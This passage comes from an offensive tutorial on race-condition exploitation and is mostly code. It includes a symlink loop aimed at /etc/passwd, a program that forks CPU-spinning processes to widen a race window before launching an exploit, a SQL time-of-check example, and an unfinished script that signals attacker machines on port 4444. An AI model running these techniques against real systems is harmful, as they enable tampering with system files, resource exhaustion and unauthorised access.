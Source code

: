 ### File System Race Condition Exploitation

```bash
# Loop to win race condition against file creation
while true; do
    ln -sf /etc/passwd /tmp/target_file 2>/dev/null
done

# In another terminal, monitor for success
tail -f /var/data/processed/target_file
```

### Exploiting CPU Scheduling

```c
// Creating artificial delays to increase race window
#include <unistd.h>

int main() {
    // Fork many processes to consume CPU
    for(int i = 0; i < 100; i++) {
        if(fork() == 0) {
            while(1) { /* Consume CPU */ }
            exit(0);
        }
    }
    
    // Launch exploit when system is under load
    system("./exploit");
    return 0;
}
```

## Advanced Race Condition Techniques

### Database Transaction Exploitation

```sql
-- Transaction with potential race condition
BEGIN TRANSACTION;
SELECT balance FROM accounts WHERE id = 123;
-- Time delay occurs here
UPDATE accounts SET balance = balance - 100 WHERE id = 123;
COMMIT;
```

### Distributed Race Conditions

```python
# Using multiple machines to attack
import requests
from concurrent.futures import ThreadPoolExecutor
import socket

# List of attack machines
machines = ["10.0.0.1", "10.0.0.2", "10.0.0.3", "10.0.0.4"]

def remote_attack(ip):
    # Connect to remote attacker machine
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.connect((ip, 4444))
        # Signal to start attack
        s.send(b"ATTACK")

# Coordinate distributed attack
```